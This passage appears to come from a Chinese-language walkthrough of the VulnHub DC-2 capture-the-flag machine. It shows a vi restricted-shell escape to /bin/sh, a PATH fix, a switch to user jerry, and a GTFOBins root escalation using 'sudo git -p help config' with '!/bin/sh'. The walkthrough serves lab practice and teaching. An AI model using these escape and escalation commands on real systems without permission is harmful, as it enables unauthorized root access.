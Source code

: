 使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/11.png)

ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/12.png)

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到你已经做到了这一点-但你还没有回家。

你仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-你现在就一个人了。 :-)

继续-git outta here !!!!
```

这里提到了 git,那么就用它提权

---

# flag5

在 https://gtfobins.github.io/gtfobins/git/ 找到 git 提权的语法
```
sudo git -p help config
!/bin/sh
```
